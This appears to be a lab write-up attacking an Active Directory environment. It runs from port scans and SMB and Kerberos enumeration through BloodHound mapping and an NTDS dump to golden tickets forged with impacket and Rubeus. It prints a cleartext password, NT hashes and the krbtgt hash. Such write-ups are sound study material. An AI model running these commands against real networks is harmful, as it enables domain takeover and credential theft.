I would like to tun a NMAP scan on the device to see exactly which ports are open on the TCP service:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# nmap 192.168.210.10                  
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-13 08:44 CEST
Stats: 0:00:01 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.65% done
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 15.25% done; ETC: 08:44 (0:00:17 remaining)
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 33.55% done; ETC: 08:44 (0:00:08 remaining)
Stats: 0:00:04 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 45.10% done; ETC: 08:44 (0:00:05 remaining)
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 80.95% done; ETC: 08:44 (0:00:01 remaining)
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 93.50% done; ETC: 08:44 (0:00:00 remaining)
Nmap scan report for 192.168.210.10
Host is up (0.047s latency).
Not shown: 990 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

I don't see any strange port here.

* * *

## SMB:

We can try to footprint the machine by querying the SMB service and it shows up as this is a DC for another domain in "ZSM.local" realm:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# proxychains enum4linux-ng -A 192.168.210.10
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
ENUM4LINUX - next generation (v1.3.1)

[proxychains] DLL init: proxychains-ng 4.16
 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 192.168.210.10
[*] Username ......... ''
[*] Random Username .. 'uwjvknab'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =======================================
|    Listener Scan on 192.168.210.10    |
 =======================================
[*] Checking LDAP
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.10:389  ...  OK
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.10:636  ...  OK
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.10:445  ...  OK
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.10:139  ...  OK
[+] SMB over NetBIOS is accessible on 139/tcp

 ======================================================
|    Domain Information via LDAP for 192.168.210.10    |
 ======================================================
[*] Trying LDAP
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.10:389  ...  OK
[+] Appears to be root/parent DC
[+] Long domain name is: zsm.local

 =============================================================
|    NetBIOS Names and Workgroup/Domain for 192.168.210.10    |
 =============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ===========================================
|    SMB Dialect Check on 192.168.210.10    |
 ===========================================
[*] Trying on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.10:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.10:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.10:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.10:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.10:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.10:445  ...  OK
[+] Supported dialects and settings:
Supported dialects:                                                                                                                                                                                                                                          
  SMB 1.0: false                                                                                                                                                                                                                                             
  SMB 2.02: true                                                                                                                                                                                                                                             
  SMB 2.1: true                                                                                                                                                                                                                                              
  SMB 3.0: true                                                                                                                                                                                                                                              
  SMB 3.1.1: true                                                                                                                                                                                                                                            
Preferred dialect: SMB 3.0                                                                                                                                                                                                                                   
SMB1 only: false                                                                                                                                                                                                                                             
SMB signing required: true                                                                                                                                                                                                                                   

 =============================================================
|    Domain Information via SMB session for 192.168.210.10    |
 =============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.10:445  ...  OK
[+] Found domain information via SMB
NetBIOS computer name: ZPH-SVRDC01                                                                                                                                                                                                                           
NetBIOS domain name: ZSM                                                                                                                                                                                                                                     
DNS domain: zsm.local                                                                                                                                                                                                                                        
FQDN: ZPH-SVRDC01.zsm.local                                                                                                                                                                                                                                  
Derived membership: domain member                                                                                                                                                                                                                            
Derived domain: ZSM                                                                                                                                                                                                                                          

 ===========================================
|    RPC Session Check on 192.168.210.10    |
 ===========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE

 =====================================================
|    Domain Information via RPC for 192.168.210.10    |
 =====================================================
[+] Domain: ZSM
[+] Domain SID: S-1-5-21-2734290894-461713716-141835440
[+] Membership: domain member

 =================================================
|    OS Information via RPC for 192.168.210.10    |
 =================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.10:445  ...  OK
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                                     
OS version: '10.0'                                                                                                                                                                                                                                           
OS release: ''                                                                                                                                                                                                                                               
OS build: '20348'                                                                                                                                                                                                                                            
Native OS: not supported                                                                                                                                                                                                                                     
Native LAN manager: not supported                                                                                                                                                                                                                            
Platform id: null                                                                                                                                                                                                                                            
Server type: null                                                                                                                                                                                                                                            
Server type string: null                                                                                                                                                                                                                                     

 =======================================
|    Users via RPC on 192.168.210.10    |
 =======================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 ========================================
|    Groups via RPC on 192.168.210.10    |
 ========================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_CONNECTION_DISCONNECTED
[*] Enumerating builtin groups
[-] Could not parse result of 'enumalsgroups builtin' command, please open a GitHub issue
[*] Enumerating domain groups
[-] Could not parse result of 'enumdomgroups' command, please open a GitHub issue

 ========================================
|    Shares via RPC on 192.168.210.10    |
 ========================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 ===========================================
|    Policies via RPC for 192.168.210.10    |
 ===========================================
[*] Trying port 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  timeout
[-] SMB connection error on port 445/tcp: Connection refused
[*] Trying port 139/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  timeout
[-] SMB connection error on port 139/tcp: Connection refused

 ===========================================
|    Printers via RPC for 192.168.210.10    |
 ===========================================
[-] Could not parse result of enumprinters command, please open a GitHub issue

Completed after 32.11 seconds
```

* * *

## Back on Track:

After we pawned the Zabbix server we found a user MArcus from Zabbix were we could obtain a cleartext password from it's password hash. Checkin on Kerberos we can see that user Marcius exist on ZSM.local realm:

```
msf6 auxiliary(gather/kerberos_enumusers) > run

[*] Using domain: ZSM.LOCAL - 192.168.210.10:88    ...
[*] 192.168.210.10 - User: "matt" user not found
[*] 192.168.210.10 - User: "gavin" user not found
[*] 192.168.210.10 - User: "web_svc" user not found
[*] 192.168.210.10 - User: "tom" user not found
[*] 192.168.210.10 - User: "daniel" user not found
[*] 192.168.210.10 - User: "blake" user not found
[*] 192.168.210.10 - User: "riley" user not found
[*] 192.168.210.10 - User: "james" user not found
[+] 192.168.210.10 - User: "marcus" is present
[!] No active DB -- Credential data will not be saved!
[*] Auxiliary module execution completed
```

And checking his creds against kerberos show that their are true:

```
msf6 auxiliary(gather/kerberos_enumusers) > run

[*] Using domain: ZSM.LOCAL - 192.168.210.10:88    ...
[+] 192.168.210.10 - User found: "marcus" with password !QAZ2wsx. Hash: $krb5asrep$18$marcus@ZSM.LOCAL:da43e1c7011353a273e7f5cd813a1658$eccd4a45e032cc914f6260d7a9b331d79e0990bdd7fa9b0b8f4132738df1404425a171fe6339e1df78f49899024b137ef26065d39be23e46beb1d078b906470b53484505f437503926fe8ba7531b93aa29d4601c867a516d5e26fe068965c4fe192bf2e1c1ca8aca36de7a304c91ef8bec3a7ff70376d68b5c78a4f1494fe42dc587c47d960a07e92589a0bc6faceb5c108578138514de2a69c6a177e2e616862ab189e120484679f04f9074ebfcd7f27fb25a36e8a99a27d4f21f70e731f55888a42df2abe7770777d44d6b1b322223c1103626eb6f28ca6ace45a36f9c99bea58396ef66e4ecd5128a3d763de0ab6cc206dc964e04a06118d5
[!] No active DB -- Credential data will not be saved!
[*] Auxiliary module execution completed
msf6 auxiliary(gather/kerberos_enumusers) >
```

This mean we should be able to run Bloodhound and footprint the Domain.

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# bloodhound-python -u Marcus -p '!QAZ2wsx' -d zsm.local -ns 192.168.210.10 -c all --zip
INFO: Found AD domain: zsm.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (zsm.local:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: zph-svrdc01.zsm.local
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 7 computers
INFO: Connecting to LDAP server: zph-svrdc01.zsm.local
INFO: Connecting to GC LDAP server: zph-svrdc01.zsm.local
INFO: Found 10 users
INFO: Found 55 groups
INFO: Found 2 gpos
INFO: Found 6 ous
INFO: Found 20 containers
INFO: Found 2 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: ZPH-SVRMGMT1.zsm.local
INFO: Querying computer: ZPH-SVRSQL01.zsm.local
INFO: Querying computer: ZPH-SVRADFS1.zsm.local
INFO: Querying computer: ZPH-SVRCA01.zsm.local
INFO: Querying computer: ZPH-GMSA-ADFS.zsm.local
INFO: Querying computer: Maintenance.zsm.local
INFO: Querying computer: ZPH-SVRDC01.zsm.local
INFO: Skipping enumeration for ZPH-GMSA-ADFS.zsm.local since it could not be resolved.
INFO: Done in 00M 08S
INFO: Compressing output into 20230913083954_bloodhound.zip
```

I guess at this standing point we can fire up Bloodhound and check what we got from it!

* * *

## AD Mappings:

Firing up Bloodhound and checking what we can find show that apparently the ADFS server (192.168.210.14) could be kerberoastable?



The user MARCUS@ZSM.LOCAL has the ability to write to the "msds-KeyCredentialLink" property on ZPH-SVRMGMT1.ZSM.LOCAL. Writing to this property allows an attacker to create "Shadow Credentials" on the object and authenticate as the principal using kerberos PKINIT.



And last I will post a whole picture of the path from Domain User to High targets on the ZSM.local domain:



I don´t see anything strange here so I guess we have to move to management server first!

EDIT: I decided to check for available users via Domain Users group:



And I see  Jamie and some others accounts... And a CA\_SVC which might be the user running a CA server and might have a SPN in it!

Now after a better analysys I totaly missed this, and re-running the Scan but this time from MGMNT1 we can see that marcus is part of CA Managers and is part of General managers which can basically reset jamie password



* * *

## Back on track(Domain Trust):

Checking on the forum someone mentioned about domain trust between ZSM and INTERNAL, we can check that, we can start by checking the trust directionality(if bi-directional then might be used for domain takeover):

```
*Evil-WinRM* PS C:\temp> Get-NetForestDomain
Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
"
At C:\temp\PowerView.ps1:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : DirectoryServicesCOMException


Forest                  : zsm.local
DomainControllers       : {ZPH-SVRCDC01.internal.zsm.local}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  : zsm.local
PdcRoleOwner            : ZPH-SVRCDC01.internal.zsm.local
RidRoleOwner            : ZPH-SVRCDC01.internal.zsm.local
InfrastructureRoleOwner : ZPH-SVRCDC01.internal.zsm.local
Name                    : internal.zsm.local

Forest                  : zsm.local
DomainControllers       :
Children                :
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  :
PdcRoleOwner            :
RidRoleOwner            :
InfrastructureRoleOwner :
Name                    : zsm.local


*Evil-WinRM* PS C:\temp> Get-NetForestDomain | Get-NetDomainTrust
Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
"
At C:\temp\PowerView.ps1:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : DirectoryServicesCOMException


SourceName      : internal.zsm.local
TargetName      : zsm.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST
TrustDirection  : Bidirectional
WhenCreated     : 10/20/2022 8:03:17 AM
WhenChanged     : 9/18/2023 4:24:03 AM

SourceName      : internal.zsm.local
TargetName      : zsm.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST
TrustDirection  : Bidirectional
WhenCreated     : 10/20/2022 8:03:17 AM
WhenChanged     : 9/18/2023 4:24:03 AM
```

I will sue this as reference: https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/external-forest-domain-oneway-inbound

First we start by checking the actual forest available. As you see on the report, source is INTERNAL and destination is ZSM, what is important is the Direction is bidirectional, which means it can work back and forth between forests.

```
*Evil-WinRM* PS C:\temp> Get-DomainTrust


SourceName      : internal.zsm.local
TargetName      : zsm.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST
TrustDirection  : Bidirectional
WhenCreated     : 10/20/2022 8:03:17 AM
WhenChanged     : 9/18/2023 4:24:03 AM
```

next we can find the FQDN of the DC@internal:

```
*Evil-WinRM* PS C:\temp> Get-DomainComputer -Domain internal.zsm.local -Properties DNSHostName

dnshostname
-----------
ZPH-SVRCDC01.internal.zsm.local
ZPH-SVRCHR.internal.zsm.local
ZPH-SVRCSUP.internal.zsm.local
ZSM-SVRCSQL02.internal.zsm.local
INT-MAINT.internal.zsm.local
```

And the same for the DC@zsm:

```
*Evil-WinRM* PS C:\temp> Get-DomainComputer -Domain zsm.local -Properties DNSHostName
ZPH-SVRDC01.zsm.local
```

Recap:

- **ZSM:** ZPH-SVRDC01.zsm.local
- **INTERNAL:** ZPH-SVRCDC01.internal.zsm.local

We can check this from Bloodhound as well, as we see the trust is Bi-directional.



Do perform this we need the following:

- Get the hash of KRBTGT user in the Child domain(aka INTERNAL): 0540fe51ddd618f42a66ef059ac36441

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# crackmapexec smb 192.168.210.16 -u Administrator -H 543beb20a2a579c7714ced68a1760d5e --ntds
SMB         192.168.210.16  445    ZPH-SVRCDC01     [*] Windows 10.0 Build 20348 x64 (name:ZPH-SVRCDC01) (domain:internal.zsm.local) (signing:True) (SMBv1:False)
SMB         192.168.210.16  445    ZPH-SVRCDC01     [+] internal.zsm.local\Administrator:543beb20a2a579c7714ced68a1760d5e (Pwn3d!)
SMB         192.168.210.16  445    ZPH-SVRCDC01     [+] Dumping the NTDS, this could take a while so go grab a    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0540fe51ddd618f42a66ef059ac36441:::
SMB         192.168.210.16  445    ZPH-SVRCDC01
```

- Get the SID of the Child domain (aka INTERNAL): S-1-5-21-3056178012-3972705859-491075245

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# impacket-lookupsid INTERNAL/yovecio@192.168.210.16 | grep "Domain SID"                     

Password:
[*] Domain SID is: S-1-5-21-3056178012-3972705859-491075245
```

- Get the SID of "Enterprise Admins" group on the Parent domain (aka ZSM):

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# impacket-lookupsid ZMS/Jamie@192.168.210.10 | grep "Enterprise Admins" 
Password:
519: ZSM\Enterprise Admins (SidTypeGroup)
```

We have to sum the 519 to the ZSM domain sid: S-1-5-21-2734290894-461713716-141835440-519

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# impacket-lookupsid ZMS/jamie@192.168.210.10 | grep "Domain SID"

Password:
[*] Domain SID is: S-1-5-21-2734290894-461713716-141835440


//Now we concatenate the values
S-1-5-21-2734290894-461713716-141835440
+ 
519
======
S-1-5-21-2734290894-461713716-141835440-519
```



- Next we create a "Golden Kerberos Ticket" of a Fake user, we are shipping the hash of KRBTGT, child Domain SID, Child domain, and the calculated sid of ENT Admins from Parent child. The last value is a fake user SPN.

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# impacket-ticketer -nthash 0540fe51ddd618f42a66ef059ac36441 -domain internal.zsm.local -domain-sid S-1-5-21-3056178012-3972705859-491075245 -extra-sid S-1-5-21-2734290894-461713716-141835440-519 hacker

Impacket v0.11.0 - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for internal.zsm.local/hacker
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in hacker.ccache
```

We point to our fresh golden ticket:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# export KRB5CCNAME=hacker.ccache 

                                                                                                                                                                                                                                                                                          
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# klist 
Ticket cache: FILE:hacker.ccache
Default principal: hacker@INTERNAL.ZSM.LOCAL

Valid starting       Expires              Service principal
09/18/2023 14:47:54  09/15/2033 14:47:54  krbtgt/INTERNAL.ZSM.LOCAL@INTERNAL.ZSM.LOCAL
    renew until 09/15/2033 14:47:54
```

Unfortunately this is not working so I guess I'm using the wrong guide, it will use this as reference: https://the-pentesting-guide.marmeus.com/active-directory/domain-trusts#bidirectional-parent-child

- First we need to find  the "Domain/Enterprise admin" groups SID on Parent domain(aka ZSM): S-1-5-21-2734290894-461713716-141835440-512

```
*Evil-WinRM* PS C:\temp> Get-DomainGroup -Domain zsm.local -Identity "Domain Admins" -Cred $marcus | select distinguishedname,objectsid

distinguishedname                         objectsid
-----------------                         ---------
CN=Domain Admins,CN=Users,DC=zsm,DC=local S-1-5-21-2734290894-461713716-141835440-512


*Evil-WinRM* PS C:\temp>
```

- Next we need to find a user part of "Domain Admins" that we can use as Impersonation: Administrator

```
*Evil-WinRM* PS C:\temp> Get-DomainGroupMember -Identity "Domain Admins" -Domain zsm.local -cred $marcus | select MemberName

MemberName
----------
Administrator
```

- Next we create the golden ticket for Impersonation (.\\Rubeus.exe golden /aes256:&lt;KERBEROS\_KRBTGT&gt; /user:&lt;ADMINISTRATOR&gt; /domain:&lt;CHILD\_DOMAIN&gt; /sid:&lt;CHILD\_DOMAIN\_SID&gt; /sids:&lt;SID\_FROM\_FIRST\_COMMAND&gt; /nowrap):

```
*Evil-WinRM* PS C:\temp> .\Rubeus.exe golden /aes256:0540fe51ddd618f42a66ef059ac36441 /user:Administrator /domain:internal.zsm.local /sid:S-1-5-21-3056178012-3972705859-491075245 /sids:S-1-5-21-2734290894-461713716-141835440-512 /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Build TGT

[*] Building PAC

[*] Domain         : INTERNAL.ZSM.LOCAL (INTERNAL)
[*] SID            : S-1-5-21-3056178012-3972705859-491075245
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
